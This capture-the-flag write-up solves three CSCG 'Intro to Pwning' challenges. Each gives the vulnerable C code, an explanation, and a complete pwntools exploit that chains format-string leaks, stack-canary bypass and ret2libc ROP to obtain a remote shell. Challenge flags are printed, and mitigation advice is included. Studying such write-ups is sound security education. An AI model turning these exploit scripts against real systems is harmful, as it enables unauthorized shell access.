



# Pwn

## Intro to Pwning 1

**Challenge**

This is a introductory challenge for exploiting Linux binaries with memory corruptions. Nowodays there are quite a few mitigations that make it not as straight forward as it used to be. So in order to introduce players to pwnable challenges, LiveOverflow created a video walkthrough of the first challenge. An alternative writeup can also be found by 0x4d5a. More resources can also be found here.


**Solution**

This challenge we get a script running on a server. 
A Snipped of the most important parts of this scripts looks like this:
```
void WINgardium_leviosa() {
    printf("┌───────────────────────┐\n");
    printf("│ You are a Slytherin.. │\n");
    printf("└───────────────────────┘\n");
    system("/bin/sh");
}

void welcome() {
    char read_buf[0xff];
    printf("Enter your witch name:\n");
    gets(read_buf);
    printf("┌───────────────────────┐\n");
    printf("│ You are a Hufflepuff! │\n");
    printf("└───────────────────────┘\n");
    printf(read_buf);
}

void AAAAAAAA() {
    char read_buf[0xff];
    
    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
}
// --------------------------------------------------- MAIN

void main(int argc, char* argv[]) {
	ignore_me_init_buffering();
	ignore_me_init_signal();

    welcome();
    AAAAAAAA();
}
```

Our goal is to execute the **WINguardium\_leviosa** function, which calls **system("/bin/sh")**. This system call will result in a shell on the server.
The function **AAAAAAAAA()** contains a gets() call, which is vulnerable for a buffer overflow. So if we can place our own code somewhere we can jump there by overwriting the return address from **AAAAAAAAA()**.
Unfortunately there are multple security mechanisms activated. Non execution bit is set, so we can't place shellcode on the stack and also PIE is enable, so we need a leak from the memory to calculate the Address of the function **WINguardium\_leviosa()**
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The function **welcome()** contains a printf() call, which can be abused for a format string attack. This can leak an address, which help us to calculate the address of **WINguardium\_leviosa()**.
We can calulate the difference of the address from **WINguardium\_leviosa()** and the leaked address with gdb. If we know this difference, we can calculate the address of **WINguardium\_leviosa()** for every execution of the binary, even if PIE is enabled.

The following exploit gives us a shell on the Server.
```
from pwn import *

HOST = 'hax1.allesctf.net'
PORT = '9100'

#r = remote('localhost','9100')
p = remote(HOST,PORT)
#p = process("./pwn1")

def remoteExploit():
    r = remote(HOST,PORT)

# leak a code address from the stack and use known offsets to calculate the WIN address
def leakAddresses():
    #witchNameQuestion = p.recvuntil('Enter your witch name:\n')
    #print(witchNameQuestion)
    formatStringAttack = (65-26)*"|%p|"
    p.sendlineafter('Enter your witch name:\n', formatStringAttack)
    stackDump = p.recvuntil(" enter your magic spell:\n")
    print(stackDump.decode('UTF-8'))
    #print(stackDump)
    stackDumpArray = stackDump.split(b"|")

    #get the last element 
    mainAddr = stackDumpArray[-2]
    #print(mainAddr)

    #calculate difference of WINgardium function and main instruction at addr mainAddr
    #this can be calculated with gdb
    print("Address of instruction in main function: {}".format(mainAddr.decode()))
    winAdr =  int(mainAddr.decode(),16) - 0x135
    return winAdr

# use the winAdr to overwrite the return address from AAAAAAAAA()
def localExploit(winAdr,offsetSize):
    #raw_input("wait for gdb") 
    #leviosaAdr = pack(0x00005555555549ec, 64, 'little', False)
    payload = b"Expelliarmus\x00"
    #payload += cyclic(offsetSize)
    payload += offsetSize*b'A'
    #also push a pop/ret/push instruction on the stack to align the stack (the win function contains a ret instruction at winAdr+0x36)
    payload += p64(winAdr+0x36)
    payload += p64(winAdr)

    print(payload)
    p.sendline(payload)
    #print(p.recvuntil("-10 Points for Hufflepuff!\n").decode('utf-8'))
    print(p.recvuntil("~ Protego!\n").decode('utf-8'))
    p.interactive()

def findOffset():

    c = "Expelliarmus\x00"+cyclic(0x2ff).decode()

    #start gdb 
    io = gdb.debug('./pwn1', '''
        break main
        continue
    ''')
    #p.recvuntil("Enter your witch name:\n")
    #send our cyclic input
    io.sendline(c)

    #interactive to keep the process alive
    io.interactive()

    #result:
    # "cnaa" is on top of the stack when the binary crashes -> use cyclic_find to get offset for the bufferoverflow
    return int(hex(cyclic_find("cnaa")),16)
    # so offset for the buffer overflow is 0xfb

if __name__=='__main__':
    #start gdb to get the offset for the buffer overflow
    #offset = findOffset()
    offset = int(hex(cyclic_find("cnaa")),16)

    winAdr = leakAddresses()
    print("calculated WIN address: {}".format(hex(winAdr)))

    localExploit(winAdr, offset)
```

The script leaks an address of an instruction on the Stack (main+45).
The calculated difference of this instruction and **WINguardium\_leviosa()** (calculated with GDB) is substracted from the leaked address, to get the address of **WINguardium\_leviosa()**.
Now we can use the buffer overflow from **AAAAAAAA()**, to override the return address of this function with the calculated **WINguardium\_leviosa()** address.

This will lead to execute **system("bin/sh")** on the server, which allows us to list the files on the server and leak the content of the file **flag**: **CSCG{NOW_PRACTICE_MORE}**




To avoid this exloit, secure functions can be used. Like **fgets()** instead of **gets()**, or a boundary check in general can be usefull to avoid buffer overflows.
The format string attack, can be avoided with correct usage of format strings, like **printf("%s", message)** instead of **printf(message)**.


## Intro to Pwning 2

**Challenge**

This is a introductory challenge for exploiting Linux binaries with memory corruptions. Nowodays there are quite a few mitigations that make it not as straight forward as it used to be. So in order to introduce players to pwnable challenges, LiveOverflow created a video walkthrough of the first challenge. An alternative writeup can also be found by 0x4d5a. More resources can also be found here.

**Solution**

This challenge we get a script running on a server. 
A Snipped of the most important parts of this scripts looks like this:

```
void WINgardium_leviosa() {
    printf("┌───────────────────────┐\n");
    printf("│ You are a Slytherin.. │\n");
    printf("└───────────────────────┘\n");
    system("/bin/sh");
}

void check_password_stage1() {
    char read_buf[0xff];
    printf("Enter the password of stage 1:\n");
    memset(read_buf, 0, sizeof(read_buf));
    read_input(0, read_buf, sizeof(read_buf));
    if(strcmp(read_buf, PASSWORD) != 0) {
        printf("-10 Points for Ravenclaw!\n");
        _exit(0);
    } else {
        printf("+10 Points for Ravenclaw!\n");
    }
}

void welcome() {
    char read_buf[0xff];
    printf("Enter your witch name:\n");
    gets(read_buf);
    printf("┌───────────────────────┐\n");
    printf("│ You are a Ravenclaw!  │\n");
    printf("└───────────────────────┘\n");
    printf(read_buf);
}


void AAAAAAAA() {
    char read_buf[0xff];
    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Ravenclaw!\n");
        _exit(0);
    }
}

void main(int argc, char* argv[]) {
	  ignore_me_init_buffering();
	  ignore_me_init_signal();

    check_password_stage1();

    welcome();
    AAAAAAAA();
}
```

Our goal is to execute the **WINguardium\_leviosa** function, which calls **system("/bin/sh")**. This system call will result in a shell on the server.
The function **AAAAAAAAA()** contains a gets() call, which is vulnerable for a buffer overflow. So if we can place our own code somewhere we can jump there by overwriting the return address from **AAAAAAAAA()**.
Unfortunately there are multple security mechanisms activated. Non execution bit is set, so we can't place shellcode on the stack and also PIE is enable, so we need a leak from the memory to calculate the Address of the function **WINguardium\_leviosa()**. This time we also have to deal with a stack canary. Which is a security mechanism against buffer overflow exploits.
```
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

The function **welcome()** contains a printf() call, which can be abused for a format string attack. This can leak an address, which help us to calculate the address of **WINguardium\_leviosa()** and the stack canary.
We can calulate the difference of the address from **WINguardium\_leviosa()** and the leaked address with gdb. If we know this difference, we can calculate the address of **WINguardium\_leviosa()** for every execution of the binary, even if PIE is enabled.

The following exploit gives us a shell on the Server.

```
from pwn import *

HOST = 'hax1.allesctf.net'
PORT = '9101'

#0x0000555555554ce3

#PASSWORD = "CSCG{THIS_IS_TEST_FLAG}"
PASSWORD = "CSCG{NOW_PRACTICE_MORE}"
#FLAG =CSCG{NOW_GET_VOLDEMORT}

#r = remote('localhost','9100')
p = remote(HOST,PORT)
#p = process("./pwn2")

def remoteExploit():
    r = remote(HOST,PORT)

# leak a code address from the stack and use known offsets to calculate the WIN address
def leakAddresses():

    print(p.recvuntil("Enter the password of stage 1:"))
    p.sendline(PASSWORD)


    #formatStringAttack = (66-26)*"|%p|"
    formatStringAttack = (65)*"|%p|"
    p.sendlineafter('Enter your witch name:\n', formatStringAttack)
    stackDump = p.recvuntil(" enter your magic spell:\n")
    print(stackDump.decode('UTF-8'))
    #print(stackDump)
    stackDumpArray = stackDump.split(b"||")
    #print(stackDumpArray)
    #get the last element 
    mainAddr = stackDumpArray[-17]
    #print(mainAddr)

    stackCanary = stackDumpArray[-27]
    #print(stackCanary)

    #calculate difference of WINgardium function and main instruction at addr mainAddr
    #this can be calculated with gdb
    print("Address of instruction in main function: {}\n".format(mainAddr.decode()))
    print("Stack canary of welcome function: {}\n".format(stackCanary.decode()))
    winAdr =  int(mainAddr.decode(),16) - 0x1fa
    return winAdr,int(stackCanary.decode(),16)

# use the winAdr to overwrite the return address from AAAAAAAAA()
def localExploit(winAdr,offsetSize,canary):
    ret = winAdr+0x36
    raw_input("wait for gdb") 
    #leviosaAdr = pack(0x00005555555549ec, 64, 'little', False)
    payload = b"Expelliarmus\x00"
    #payload += cyclic(offsetSize)
    payload += offsetSize*b'A'
    payload += p64(canary)
    payload += 8*b'B' 
    payload += p64(ret)
    payload += p64(winAdr)

    print(payload)
    p.sendline(payload)
    #print(p.recvuntil("-10 Points for Hufflepuff!\n").decode('utf-8'))
    print(p.recvuntil("~ Protego!\n").decode('utf-8'))
    p.interactive()

def findOffset():

    c = "Expelliarmus\x00"+cyclic(0x2ff).decode()
    raw_input("attach gdb on pwn2")
    p.sendline(c)
    #start gdb 
    #io = gdb.debug('./pwn1', '''
    #    break main
    #    continue
    #''')
    #p.recvuntil("Enter your witch name:\n")
    #send our cyclic input
    #io.sendline(c)

    #interactive to keep the process alive
    #io.interactive()

    #result:
    # "cnaa" is on top of the stack when the binary crashes -> use cyclic_find to get offset for the bufferoverflow
    return int(hex(cyclic_find("cnaa")),16)
    # so offset for the buffer overflow is 0xfb

if __name__=='__main__':
    #start gdb to get the offset for the buffer overflow
    #offset = findOffset()
    offset = int(hex(cyclic_find("cnaa")),16)

    #leakAddresses()
    winAdr,canary = leakAddresses()
    print("calculated WIN address: {}".format(hex(winAdr)))

    localExploit(winAdr, offset,canary)
```


This time we have also to pass the flag of the previous challenge before we can leak the addresses.
The script leaks an address of an instruction from the main method and also the stack canary, which are both placed on the Stack. The stack canary can also be found with GDB, its placed before the return address on the stack and starts with a zero byte.
The calculated difference of this instruction and **WINguardium\_leviosa()** (calculated with GDB) is substracted from the leaked address, to get the address of **WINguardium\_leviosa()**.
Now we can use the buffer overflow from **AAAAAAAA()**, to place the leaked canary and override the return address of this function with the calculated **WINguardium\_leviosa()** address.

This will lead to execute **system("bin/sh")** on the server, which allows us to list the files on the server and leak the content of the file **flag**: **CSCG{NOW\_GET\_VOLDEMORT}**




To avoid this exloit, secure functions can be used. Like **fgets()** instead of **gets()**, or a boundary check in general can be usefull to avoid buffer overflows.
The format string attack, can be avoided with correct usage of format strings, like **printf("%s", message)** instead of **printf(message)**.
If we can avoid the format string attack, and an attack ist't able to get the stack canary, he cannot abuse the buffer overflow.


## Intro to Pwning 3

**Challenge**

This is a introductory challenge for exploiting Linux binaries with memory corruptions. Nowodays there are quite a few mitigations that make it not as straight forward as it used to be. So in order to introduce players to pwnable challenges, LiveOverflow created a video walkthrough of the first challenge. An alternative writeup can also be found by 0x4d5a. More resources can also be found here.

Service running at: hax1.allesctf.net:9102

**Solution**


This challenge we get a script running on a server. 
A Snipped of the most important parts of this scripts looks like this:

```
void WINgardium_leviosa() {
    printf("They has discovered our secret, Nagini.\n");
    printf("It makes us vulnerable.\n");
    printf("We must deploy all our forces now to find them.\n");
    // system("/bin/sh") it's not that easy anymore.
}

void check_password_stage2() {
    char read_buf[0xff];
    printf("Enter the password of stage 2:\n");
    memset(read_buf, 0, sizeof(read_buf));
    read_input(0, read_buf, sizeof(read_buf));
    if(strcmp(read_buf, PASSWORD) != 0) {
        printf("-10 Points for Gryffindor!\n");
        _exit(0);
    } else {
        printf("+10 Points for Gryffindor!");
    }
}

void welcome() {
    char read_buf[0xff];
    printf("Enter your witch name:\n");
    gets(read_buf);
    printf("┌───────────────────────┐\n");
    printf("│ You are a Gryffindor! │\n");
    printf("└───────────────────────┘\n");
    printf(read_buf);
}

void AAAAAAAA() {
    char read_buf[0xff];
    
    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Gryffindor!\n");
        _exit(0);
    }
}

// --------------------------------------------------- MAIN

void main(int argc, char* argv[]) {
	  ignore_me_init_buffering();
	  ignore_me_init_signal();

    check_password_stage2();

    welcome();
    AAAAAAAA();	
}
```

This time the **WINguardium\_leviosa()** function does not contain the shell execution **/bin/sh**. 
The function **AAAAAAAAA()** contains a gets() call, which is vulnerable for a buffer overflow. So if we can place our own code somewhere we can jump there by overwriting the return address from **AAAAAAAAA()**.
Unfortunately there are multple security mechanisms activated. 

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Non execution bit is set, so we can't place shellcode on the stack and also PIE is enable. Thus we can't place our own code and have to use what we have within the binary. We can use a return to libc attack to abuse the libc functions, by overwrite the return address of **AAAAAAAA()** with the address of a function from the libc. 
We can abuse the system function from the libc while placing the correct parameter on the stack or the correct Registers (depends on the calling convention).

The function **welcome()** contains a printf() call, which can be abused for a format string attack. This can leak an address, which help us to calculate the address of **system()** and the stack canary.
We can calulate the difference of the address from **WINguardium\_leviosa()** and the leaked address with gdb. If we know this difference, we can calculate the address of **WINguardium\_leviosa()** for every execution of the binary, even if PIE is enabled.

To get the correct offsets of the libc functions, we can use the tool **libc-database** (https://github.com/niklasb/libc-database) and the dockerfile from liveoverflow (https://github.com/LiveOverflow/pwn_docker_example/blob/master/ctf/Dockerfile), which uses the same libc as the challenge.

```
offset___libc_start_main_ret = 0x271e3
offset_system = 0x00000000000554e0
offset_dup2 = 0x0000000000111b60
offset_read = 0x0000000000111260
offset_write = 0x0000000000111300
offset_str_bin_sh = 0x1b6613

```

The following exploit gives us a shell on the Server.

```
from pwn import *

HOST = 'hax1.allesctf.net'
#HOST = 'localhost'
PORT = '9102'
#PORT = '1024'

#0x0000555555554ce3

#PASSWORD = "CSCG{NOW_PRACTICE_MORE}"
#FLAG =CSCG{NOW_GET_VOLDEMORT}
PASSWORD ="CSCG{NOW_GET_VOLDEMORT}"
#PASSWORD = "CSCG{THIS_IS_TEST_FLAG}"

#FLAG = CSCG{VOLDEMORT_DID_NOTHING_WRONG}

#r = remote('localhost','9100')
p = remote(HOST,PORT)
#p = process("./pwn3")

offset___libc_start_main_ret = 0x271e3
offset_system = 0x00000000000554e0
offset_dup2 = 0x0000000000111b60
offset_read = 0x0000000000111260
offset_write = 0x0000000000111300
offset_str_bin_sh = 0x1b6613

offset_popRDI = 0x0000000000026bb2

def remoteExploit():
    r = remote(HOST,PORT)

# leak a code address from the stack and use known offsets to calculate the WIN address
def leakAddresses():
    #raw_input("Attach gdb")
    print(p.recvuntil("Enter the password of stage 2:"))
    p.sendline(PASSWORD)


    #formatStringAttack = (66-26)*"|%p|"
    formatStringAttack = (65)*"|%p|"
    p.sendlineafter('Enter your witch name:\n', formatStringAttack)
    stackDump = p.recvuntil(" enter your magic spell:\n")
    print(stackDump.decode('UTF-8'))
    #print(stackDump)
    stackDumpArray = stackDump.split(b"||")
    #print(stackDumpArray)
    #get the last element 
    mainAddr = stackDumpArray[-17]
    #print(mainAddr)

    stackCanary = stackDumpArray[-27]

    libcStartMain = stackDumpArray[-21]
    print("leaked libc start_main addr: {}".format(libcStartMain.decode()))
    #baseAddr = int(libcStartMain.decode(), 16) - 0x00020830
    baseAddr = int(libcStartMain.decode(), 16) - offset___libc_start_main_ret 
    #baseAddr = int(libcStartMain.decode(), 16) -0x18f523-0x17f7a
    print("calculated base Adr: {}".format(hex(baseAddr)))
    #execveAdr = baseAddr + 0x000cc770
    #execveAdr = baseAddr + 0x000cc770
    #print("calculated execve() Adr: {}".format(hex(execveAdr)))
    systemAdr = baseAddr + offset_system
    #systemAdr = int(libcStartMain.decode(),16) + 0x2E2FD# + 0x00045390
    print("calculated System() Adr: {}".format(hex(systemAdr)))
    binShAdr = baseAddr + offset_str_bin_sh
    #binShAdr = int(libcStartMain.decode(),16) + 0x18F430
    print("calculated Adr of /bin/sh: {}".format(hex(binShAdr)))
    #print(stackCanary)

    #calculate difference of WINgardium function and main instruction at addr mainAddr
    #this can be calculated with gdb
    print("Address of instruction in main function: {}\n".format(mainAddr.decode()))
    print("Stack canary of welcome function: {}\n".format(stackCanary.decode()))
    winAdr =  int(mainAddr.decode(),16) -0x1f3#- 0x1fa
    #winAdr =  int(mainAddr.decode(),16) - 0x1fa
    return winAdr,int(stackCanary.decode(),16),systemAdr,binShAdr,baseAddr

# use the winAdr to overwrite the return address from AAAAAAAAA()
def localExploit(winAdr,offsetSize,canary,systemAddr,binShAdr, baseAdr):
    popRdiGadget = baseAdr + offset_popRDI
    ret = winAdr+0x2a
    raw_input("wait for gdb") 
    payload = b"Expelliarmus\x00"
    payload += offsetSize*b'A'
    payload += p64(canary)

    payload += int(hex(cyclic_find("caaa")),16)*b'A'
    #payload += 8*b'B' 
    payload += p64(ret)

    payload += p64(popRdiGadget)
    payload += p64(binShAdr)
    #payload += p64(ret)
    payload += p64(systemAddr)

    payload += p64(binShAdr)

    print(payload)
    p.sendline(payload)
    print(p.recvuntil("~ Protego!\n").decode('utf-8'))
    p.interactive()

def findOffset():

    raw_input("attach gdb on pwn3")
    #c = "Expelliarmus\x00"+cyclic(0x2ff).decode()
    payload = b"Expelliarmus\x00"
    #payload += cyclic(offsetSize)
    payload += offsetSize*b'A'
    payload += p64(canary)
    payload += 8*b'B' 

    payload += cyclic(0xff).decode()
    #payload += p64(ret)
    p.sendline(c)
    #start gdb 
    #io = gdb.debug('./pwn1', '''
    #    break main
    #    continue
    #''')
    #p.recvuntil("Enter your witch name:\n")
    #send our cyclic input
    #io.sendline(c)

    #interactive to keep the process alive
    #io.interactive()

    #result:
    # "cnaa" is on top of the stack when the binary crashes -> use cyclic_find to get offset for the bufferoverflow
    return int(hex(cyclic_find("cnaa")),16)
    # so offset for the buffer overflow is 0xfb

if __name__=='__main__':
    #start gdb to get the offset for the buffer overflow
    #offset = findOffset()
    offset = int(hex(cyclic_find("cnaa")),16)

    #leakAddresses()
    winAdr,canary,systemAdr,binShAdr,baseAdr = leakAddresses()
    print("calculated WIN address: {}".format(hex(winAdr)))

    #findOffset()
    localExploit(winAdr, offset,canary,systemAdr,binShAdr,baseAdr)
```



Flag: **CSCG{VOLDEMORT\_DID\_NOTHING\_WRONG}**
